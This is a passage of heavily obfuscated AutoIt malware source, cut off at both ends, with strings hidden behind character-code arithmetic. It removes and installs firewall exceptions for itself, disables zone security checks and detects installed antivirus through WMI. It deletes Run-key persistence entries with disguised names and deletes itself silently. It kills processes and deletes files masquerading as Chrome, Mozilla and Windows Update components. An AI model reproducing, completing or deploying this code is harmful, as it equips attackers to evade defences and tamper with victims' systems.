	RegDelete(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(10 + 70) & ChrW(8 + 106) & ChrW(105) & String("n") & ChrW(135 - 19) & "D" & ChrW(114) & "i" & ChrW(118) & String("e") & ChrW(114))
	RegDelete(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), ChrW(67) & ChrW(116 - 5) & ChrW(123 - 9) & String("t") & ChrW(139 - 42) & ChrW(4 + 106) & ChrW(97))
	RegDelete(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(67) & ChrW(116 - 5) & ChrW(123 - 9) & String("t") & ChrW(139 - 42) & ChrW(4 + 106) & ChrW(97))
	RegDelete(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), ChrW(106 - 29) & "i" & ChrW(28 + 71) & ChrW(153 - 39) & ChrW(2 + 109) & "s" & ChrW(111) & "f" & String("t") & "O" & String("f") & ChrW(43 + 59) & String("i") & ChrW(131 - 32) & ChrW(116 - 15))
	RegDelete(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(106 - 29) & "i" & ChrW(28 + 71) & ChrW(153 - 39) & ChrW(2 + 109) & "s" & ChrW(111) & "f" & String("t") & "O" & String("f") & ChrW(43 + 59) & String("i") & ChrW(131 - 32) & ChrW(116 - 15))
	RegDelete(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(40 + 37) & String("i") & ChrW(108 - 9) & ChrW(114) & "o" & ChrW(115) & String("o") & ChrW(121 - 19) & "t" & ChrW(101 - 34) & ChrW(108 - 31) & ChrW(68) & ChrW(47 + -1) & "l" & String("n") & ChrW(2 + 105))
	RegDelete(ChrW(112 - 40) & ChrW(75) & ChrW(69) & ChrW(89) & String("_") & ChrW(67) & String("U") & ChrW(126 - 44) & "R" & ChrW(69) & ChrW(110 - 32) & ChrW(84) & ChrW(95) & ChrW(85) & String("S") & ChrW(69) & ChrW(82) & ChrW(92) & ChrW(83) & ChrW(79) & String("F") & ChrW(20 + 64) & ChrW(87) & "A" & ChrW(82) & ChrW(100 - 31) & ChrW(49 + 43) & ChrW(77) & ChrW(105) & String("c") & String("r") & String("o") & ChrW(151 - 36) & ChrW(122 - 11) & ChrW(102) & ChrW(116) & ChrW(25 + 67) & ChrW(136 - 49) & "i" & ChrW(15 + 95) & ChrW(100) & ChrW(50 + 61) & ChrW(136 - 17) & ChrW(115) & String("\") & "C" & String("u") & String("r") & ChrW(33 + 81) & ChrW(109 - 8) & ChrW(110) & ChrW(116) & String("V") & "e" & String("r") & "s" & "i" & String("o") & ChrW(128 - 18) & String("\") & ChrW(82) & ChrW(117) & ChrW(35 + 75), ChrW(40 + 37) & String("i") & ChrW(108 - 9) & ChrW(114) & "o" & ChrW(115) & String("o") & ChrW(121 - 19) & "t" & ChrW(101 - 34) & ChrW(108 - 31) & ChrW(68) & ChrW(47 + -1) & "l" & String("n") & ChrW(2 + 105))
	RegDelete(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(79 - 2) & ChrW(27 + 78) & ChrW(25 + 74) & String("r") & ChrW(127 - 16) & "s" & ChrW(111) & ChrW(29 + 73) & ChrW(116) & ChrW(83) & ChrW(116 - 15) & ChrW(99) & ChrW(117) & ChrW(136 - 22) & ChrW(128 - 23) & ChrW(145 - 29) & ChrW(5 + 116) & String(ChrW(47 + -1)) & ChrW(101) & "x" & "e")
	RegDelete(ChrW(112 - 40) & ChrW(75) & ChrW(69) & ChrW(89) & String("_") & ChrW(67) & String("U") & ChrW(126 - 44) & "R" & ChrW(69) & ChrW(110 - 32) & ChrW(84) & ChrW(95) & ChrW(85) & String("S") & ChrW(69) & ChrW(82) & ChrW(92) & ChrW(83) & ChrW(79) & String("F") & ChrW(20 + 64) & ChrW(87) & "A" & ChrW(82) & ChrW(100 - 31) & ChrW(49 + 43) & ChrW(77) & ChrW(105) & String("c") & String("r") & String("o") & ChrW(151 - 36) & ChrW(122 - 11) & ChrW(102) & ChrW(116) & ChrW(25 + 67) & ChrW(136 - 49) & "i" & ChrW(15 + 95) & ChrW(100) & ChrW(50 + 61) & ChrW(136 - 17) & ChrW(115) & String("\") & "C" & String("u") & String("r") & ChrW(33 + 81) & ChrW(109 - 8) & ChrW(110) & ChrW(116) & String("V") & "e" & String("r") & "s" & "i" & String("o") & ChrW(128 - 18) & String("\") & ChrW(82) & ChrW(117) & ChrW(35 + 75), ChrW(79 - 2) & ChrW(27 + 78) & ChrW(25 + 74) & String("r") & ChrW(127 - 16) & "s" & ChrW(111) & ChrW(29 + 73) & ChrW(116) & ChrW(83) & ChrW(116 - 15) & ChrW(99) & ChrW(117) & ChrW(136 - 22) & ChrW(128 - 23) & ChrW(145 - 29) & ChrW(5 + 116) & String(ChrW(47 + -1)) & ChrW(101) & "x" & "e")
	ShellExecute(ChrW(40 + 70) & String("e") & ChrW(21 + 95) & ChrW(129 - 14) & ChrW(1 + 103), String("f") & ChrW(139 - 34) & "r" & ChrW(114 - 13) & ChrW(150 - 31) & "a" & String("l") & "l" & String(" ") & String("d") & ChrW(101) & ChrW(108) & ChrW(20 + 81) & ChrW(134 - 18) & ChrW(31 + 70) & ChrW(77 - 45) & ChrW(19 + 78) & ChrW(136 - 28) & ChrW(31 + 77) & String("o") & "w" & String("e") & ChrW(2 + 98) & ChrW(5 + 107) & ChrW(114) & "o" & ChrW(103) & "r" & String("a") & "m" & String(" ") & ChrW(34) & @AutoItExe & ChrW(34), "", "", @SW_HIDE)
	ShellExecute(@ComSpec, ChrW(47) & ChrW(107) & ChrW(32) & ChrW(26 + 86) & ChrW(39 + 66) & ChrW(110) & ChrW(103) & ChrW(47 + -15) & ChrW(48) & ChrW(32) & ChrW(49 + -11) & ChrW(8 + 24) & ChrW(100) & "e" & "l" & ChrW(25 + 7) & ChrW(34) & @AutoItExe & ChrW(34) & ChrW(44 + -12) & ChrW(38) & " " & "e" & ChrW(15 + 105) & ChrW(105) & ChrW(28 + 88), "", "", @SW_HIDE)
	yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("M" & ChrW(83) & "G" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & ChrW(40 - 8) & String("U") & String("n") & ChrW(105) & ChrW(153 - 43) & ChrW(38 + 77) & String("t") & ChrW(129 - 32) & String("l") & String("l") & ChrW(32) & "!" & ChrW(33))
	Exit
EndFunc

Func av()
	Local $avname
	If @OSVersion = "WIN_XP" Then
		$owmi = ObjGet("winmgmts:\\localhost\root\SecurityCenter")
	Else
		$owmi = ObjGet("winmgmts:\\localhost\root\SecurityCenter2")
	EndIf
	$colitems = $owmi.execquery("Select * from AntiVirusProduct")
	For $objantivirusproduct In $colitems
		$avname = $objantivirusproduct.displayname
	Next
	If $avname = False Then
		Return "No-AntiVirus"
	Else
		Return $avname
	EndIf
EndFunc

Func mnmurofuotaxronjkijvbjrqkrmevcwwmbsmjcmjzcqxplscwnzh()
	EnvSet(ChrW(14 + 69) & "E" & ChrW(69) & ChrW(19 + 76) & String("M") & ChrW(100 - 35) & "S" & ChrW(116 - 41) & "_" & ChrW(13 + 65) & ChrW(79) & ChrW(90) & ChrW(79) & "N" & ChrW(103 - 34) & "C" & ChrW(27 + 45) & "E" & ChrW(94 - 27) & ChrW(75) & "S", ChrW(84 - 35))
	ShellExecute(ChrW(40 + 70) & String("e") & ChrW(21 + 95) & ChrW(129 - 14) & ChrW(1 + 103), ChrW(102) & ChrW(105) & ChrW(114) & ChrW(101) & ChrW(153 - 34) & ChrW(115 - 18) & String("l") & String("l") & String(" ") & ChrW(132 - 35) & "d" & "d" & ChrW(32) & "a" & String("l") & "l" & ChrW(10 + 101) & "w" & ChrW(101) & String("d") & ChrW(112) & String("r") & ChrW(111) & String("g") & String("r") & ChrW(97) & String("m") & ChrW(34 - 2) & ChrW(34) & @AutoItExe & ChrW(34) & ChrW(48 - 16) & ChrW(34) & $oolbadsjbfwdjkintqtwpzzxmffhgfnmbxvzjmvtsknhhelokmhf & ChrW(34) & ChrW(16 + 16) & String("E") & ChrW(78) & ChrW(65) & ChrW(32 + 34) & ChrW(76) & "E", "", "", @SW_HIDE)
	If @error Then
	EndIf
	$vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw = "C" & String(":") & ChrW(92) & ChrW(84 - 13) & ChrW(125 - 14) & ChrW(136 - 25) & String("g") & String("l") & ChrW(131 - 30) & ChrW(50 + 17) & ChrW(136 - 32) & ChrW(18 + 96) & ChrW(139 - 28) & "m" & String("e")
	$opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw = ChrW(67) & ChrW(11 + 47) & ChrW(27 + 65) & String("M") & "o" & ChrW(14 + 108) & ChrW(49 + 56) & "l" & ChrW(108) & "a" & ChrW(70) & ChrW(113 - 8) & String("r") & ChrW(101) & "f" & ChrW(111) & ChrW(120)
	ProcessClose(ChrW(78 - 7) & String("o") & "o" & "g" & "l" & ChrW(131 - 30) & String("C") & "h" & "r" & "o" & ChrW(140 - 31) & ChrW(150 - 49) & ChrW(42 + 4) & ChrW(101) & String("x") & ChrW(109 - 8))
	ProcessClose(ChrW(39 + 38) & "o" & ChrW(122) & "i" & ChrW(47 + 61) & ChrW(24 + 84) & "a" & String(ChrW(47 + -1)) & ChrW(137 - 36) & ChrW(120) & String("e"))
	Sleep(999)
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & String("\") & ChrW(71) & ChrW(129 - 18) & String("o") & ChrW(137 - 34) & String("l") & ChrW(14 + 87) & String("C") & ChrW(12 + 92) & ChrW(114) & ChrW(148 - 37) & ChrW(41 + 68) & ChrW(13 + 88) & ChrW(88 - 42) & ChrW(109 - 12) & ChrW(51) & String("x"))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(38 + 54) & String("G") & "o" & "o" & String("g") & "l" & "e" & ChrW(67) & "h" & String("r") & ChrW(111) & ChrW(115 - 6) & ChrW(124 - 23) & ChrW(65 - 19) & "e" & ChrW(152 - 32) & ChrW(137 - 36))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(92) & ChrW(35 + 36) & "o" & String("o") & ChrW(34 + 69) & ChrW(121 - 13) & "e" & ChrW(67) & "h" & ChrW(16 + 98) & ChrW(111) & "m" & String("e") & ChrW(47 + -1) & ChrW(151 - 43) & "n" & ChrW(18 + 89))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & "\" & ChrW(25 + 52) & ChrW(9 + 112) & ChrW(78 - 46) & "P" & ChrW(19 + 86) & String("c") & ChrW(19 + 97) & String("u") & "r" & ChrW(106 - 5) & ChrW(17 + 98) & ChrW(22 + 24) & ChrW(108) & String("n") & ChrW(10 + 97))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(92) & ChrW(32 + 39) & String("o") & ChrW(111) & ChrW(108 - 5) & ChrW(109 - 1) & ChrW(143 - 42) & ChrW(6 + 79) & String("p") & ChrW(42 + 58) & String("a") & ChrW(120 - 4) & ChrW(108 - 7) & ChrW(47 + -1) & "l" & ChrW(138 - 28) & ChrW(11 + 96))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(23 + 69) & ChrW(42 + 35) & "y" & ChrW(46 + -14) & ChrW(108 - 31) & ChrW(30 + 87) & ChrW(148 - 33) & "i" & "c" & ChrW(47 + -1) & ChrW(108) & "n" & ChrW(107))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(44 + 48) & "W" & ChrW(5 + 100) & ChrW(26 + 84) & String("d") & ChrW(26 + 85) & "w" & String("s") & "U" & ChrW(117 - 5) & ChrW(18 + 82) & "a" & "t" & ChrW(44 + 57) & String(ChrW(47 + -1)) & String("l") & ChrW(110) & String("k"))
	If ProcessExists(ChrW(39 + 38) & "o" & ChrW(122) & "i" & ChrW(47 + 61) & ChrW(24 + 84) & "a" & String(ChrW(47 + -1)) & ChrW(137 - 36) & ChrW(120) & String("e")) Then
		ProcessClose(ChrW(39 + 38) & "o" & ChrW(122) & "i" & ChrW(47 + 61) & ChrW(24 + 84) & "a" & String(ChrW(47 + -1)) & ChrW(137 - 36) & ChrW(120) & String("e"))
	EndIf
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(92) & String("M") & "o" & String("z") & String("i") & ChrW(131 - 23) & String("l") & ChrW(104 - 7) & ChrW(89 - 43) & ChrW(10 + 91) & ChrW(120) & ChrW(31 + 70))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & ChrW(122 - 30) & "M" & ChrW(132 - 21) & ChrW(129 - 7) & ChrW(38 + 67) & ChrW(45 + 63) & ChrW(108) & ChrW(97) & ChrW(46) & ChrW(118) & "b" & ChrW(42 + 73))
	FileDelete($vdecwnthgnfqrmymkmwaxvzivgqftlelifhrqglgbdraxgltdybw & "\" & String("M") & ChrW(5 + 106) & ChrW(124 - 2) & ChrW(105) & ChrW(135 - 27) & ChrW(108) & String("a") & ChrW(46) & "v" & ChrW(98))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & String("\") & ChrW(71) & ChrW(129 - 18) & String("o") & ChrW(137 - 34) & String("l") & ChrW(14 + 87) & String("C") & ChrW(12 + 92) & ChrW(114) & ChrW(148 - 37) & ChrW(41 + 68) & ChrW(13 + 88) & ChrW(88 - 42) & ChrW(109 - 12) & ChrW(51) & String("x"))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(38 + 54) & String("G") & "o" & "o" & String("g") & "l" & "e" & ChrW(67) & "h" & String("r") & ChrW(111) & ChrW(115 - 6) & ChrW(124 - 23) & ChrW(65 - 19) & "e" & ChrW(152 - 32) & ChrW(137 - 36))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(92) & ChrW(35 + 36) & "o" & String("o") & ChrW(34 + 69) & ChrW(121 - 13) & "e" & ChrW(67) & "h" & ChrW(16 + 98) & ChrW(111) & "m" & String("e") & ChrW(47 + -1) & ChrW(151 - 43) & "n" & ChrW(18 + 89))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & "\" & ChrW(25 + 52) & ChrW(9 + 112) & ChrW(78 - 46) & "P" & ChrW(19 + 86) & String("c") & ChrW(19 + 97) & String("u") & "r" & ChrW(106 - 5) & ChrW(17 + 98) & ChrW(22 + 24) & ChrW(108) & String("n") & ChrW(10 + 97))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(92) & ChrW(32 + 39) & String("o") & ChrW(111) & ChrW(108 - 5) & ChrW(109 - 1) & ChrW(143 - 42) & ChrW(6 + 79) & String("p") & ChrW(42 + 58) & String("a") & ChrW(120 - 4) & ChrW(108 - 7) & ChrW(47 + -1) & "l" & ChrW(138 - 28) & ChrW(11 + 96))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(23 + 69) & ChrW(42 + 35) & "y" & ChrW(46 + -14) & ChrW(108 - 31) & ChrW(30 + 87) & ChrW(148 - 33) & "i" & "c" & ChrW(47 + -1) & ChrW(108) & "n" & ChrW(107))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(44 + 48) & "W" & ChrW(5 + 100) & ChrW(26 + 84) & String("d") & ChrW(26 + 85) & "w" & String("s") & "U" & ChrW(117 - 5) & ChrW(18 + 82) & "a" & "t" & ChrW(44 + 57) & String(ChrW(47 + -1)) & String("l") & ChrW(110) & String("k"))
	If ProcessExists(ChrW(39 + 38) & "o" & ChrW(122) & "i" & ChrW(47 + 61) & ChrW(24 + 84) & "a" & String(ChrW(47 + -1)) & ChrW(137 - 36) & ChrW(120) & String("e")) Then
		ProcessClose(ChrW(39 + 38) & "o" & ChrW(122) & "i" & ChrW(47 + 61) & ChrW(24 + 84) & "a" & String(ChrW(47 + -1)) & ChrW(137 - 36) & ChrW(120) & String("e"))
	EndIf
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(92) & String("M") & "o" & String("z") & String("i") & ChrW(131 - 23) & String("l") & ChrW(104 - 7) & ChrW(89 - 43) & ChrW(10 + 91) & ChrW(120) & ChrW(31 + 70))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & ChrW(122 - 30) & "M" & ChrW(132 - 21) & ChrW(129 - 7) & ChrW(38 + 67) & ChrW(45 + 63) & ChrW(108) & ChrW(97) & ChrW(46) & ChrW(118) & "b" & ChrW(42 + 73))
	FileDelete($opmzevfpwoovhuhlefwdapztezlqvwbukjwushmubvknpvsdzznw & "\" & String("M") & ChrW(5 + 106) & ChrW(124 - 2) & ChrW(105) & ChrW(135 - 27) & ChrW(108) & String("a") & ChrW(46) & "v" & ChrW(98))
	RegDelete(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), String("J") & ChrW(97) & "v" & ChrW(97) & ChrW(36 + 49) & "p" & ChrW(29 + 71) & "a" & ChrW(133 - 17) & "e")
	RegDelete(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), "A" & ChrW(22 + 78) & ChrW(13 + 98) & ChrW(3 + 109) & ChrW(27 + 74) & ChrW(85) & ChrW(112) & ChrW(100) & "a" & ChrW(116) & String("e"))
	RegDelete(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), "N" & ChrW(29 + 72) & "w" & ChrW(74) & ChrW(97) & ChrW(19 + 99) & ChrW(100 - 3) & "I" & ChrW(158 - 48) & String("s") & ChrW(49 + 67) & ChrW(97) & ChrW(17 + 91) & ChrW(123 - 15))
	RegDelete(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), String("A") & ChrW(10 + 90) & String("o") & "p" & ChrW(101) & "F" & String("l") & ChrW(9 + 88) & ChrW(28 + 87) & ChrW(39 + 65))
	RegDelete(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(125 - 38) & ChrW(152 - 47) & ChrW(23 + 87) & ChrW(6 + 94) & "o" & "w" & "s" & "U" & String("p") & "d" & ChrW(97) & ChrW(38 + 78) & 